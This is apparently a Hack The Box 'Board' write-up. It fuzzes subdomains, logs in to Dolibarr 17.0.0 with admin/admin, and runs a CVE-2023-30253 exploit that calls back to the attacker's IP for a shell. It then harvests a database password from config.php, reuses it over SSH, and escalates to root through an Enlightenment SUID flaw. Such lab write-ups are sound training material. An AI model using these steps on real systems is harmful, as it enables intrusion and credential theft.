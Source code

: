 
## Reconnaissance

### nmap 

![](./IMG/0.png)

### WebSite 

![](./IMG/1.png)

### Gobuster 

![](./IMG/2.png)
### Fuzz subdomain 

> With following command 

```
ffuf -u 'http://board.htb' -H 'Host:FUZZ.board.htb' -w /usr/share/seclists/Discovery/DNS/subdomains.-top1million-5000.txt -fs 15848
```


![](./IMG/3.png)

> Find subdomain - crm.board.htb

### Subdomain Enumerate 

> Access the subdomain 
> It's a login page for Dolibarr
> Disclose the version in login page - Dolibarr 17.0.0

![](./IMG/4.png)

> Try to login with admin / admin  --- Bingo

![](./IMG/7.png)

![](./IMG/6.png)

### Search Exploit code 

![](./IMG/5.png)


> With researching, it's easy to know the exploit on Dolibarr 17.0.0 need to authentication 

- [(GITHUB)POC exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

![](./IMG/8.png)

- [(GITHUB)Dolibarr-17.0.0-Exploit-CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)

![](./IMG/9.png)

## Exploit 

> With above research, I know I have to login first
> And I also can login with weak creadential (admin / admin)

![](./IMG/6.png)

> Then clone the exploit code and start the attack 

```
python exploit.py http://crm.board.htb admin admin 10.10.14.218 1337 
```

![](./IMG/10.png)

> It's easy to get www-data user by executing the payload 

![](./IMG/11.png)

> With user: www-data
> I tried to launch the linpeas to enumerate the information 
> But I can't find any useful information from the result ... 

![](./IMG/12.png)

> Then I started to enumerate the web directory
> And I found some credential which locate in config.php file 

```
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

![](./IMG/13.png)

> Now, I know the crdential and the potential user is **larissa**
> Credential 

```
dolibarrowner / serverfun2$2023!!
```

### Login to DB 

> Try to login to DB with the credential I found 

```
mysql -h localhost -u dolibarrowner -p
```

![](./IMG/15.png)

> But I didn't find anything useful information 

### Login to SSH 

> With this credential,  I tried to login target with the potential user - larissa

```
ssh larissa@10.10.11.11
```

![](./IMG/14.png)

> Get user flag

![](./IMG/17.png)


## Privilege Escalation 

> Tried to check sudo permission
> Obviously, the current user doesn't have permission to run sudo 

![](./IMG/16.png)

> Run linpeas again 

![](./IMG/18.png)
> Find unknown binary file which has SUID permission set

![](./IMG/19.png)

### Search PE exploit code 

> Using 'enlightenment' as keyword to search exploit code 

![](./IMG/20.png)

> Check exploitDB 

- [(ExploitDB)Enlightenment v0.25.3 - Privilege escalation](https://www.exploit-db.com/exploits/51180)
![](./IMG/21.png)

![](./IMG/22.png)

> Searchsploit can find same content

![](./IMG/23.png)

> But exploitDB only provide a text file 
> I have to create the exploit shell script by myself
> I tried to create it, but it failed to execute... 

![](./IMG/26.png)

> Then I start to search and download from Github

- [(GITHUB)CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)

![](./IMG/24.png)

- [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)
![](./IMG/25.png)

> Using the following one can PE successfully

- [(GITHUB)CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)

![](./IMG/27.png)

> Root flag 

![](./IMG/28.png)

## Reference 

### CVE-2023-30253

- [(GITHUB)POC exploit for Dolibarr <= 17.0.0 (CVE-2023-30253)](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)
- [(GITHUB)Dolibarr-17.0.0-Exploit-CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)
- [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253)


### CVE-2022-37706

- [(GITHUB)CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/tree/main)
- [(ExploitDB)Enlightenment v0.25.3 - Privilege escalation](https://www.exploit-db.com/exploits/51180)
- [(GITHUB)CVE-2022-37706-Enlightenment-0.25.3-LPE](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2022-37706)
### Technique for shell 

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

###### tags: `HackTheBox` `CVE-2023-30253` `Dolibarr 17.0.0` `CVE-2022-37706` `Enlightenment 0.25.3`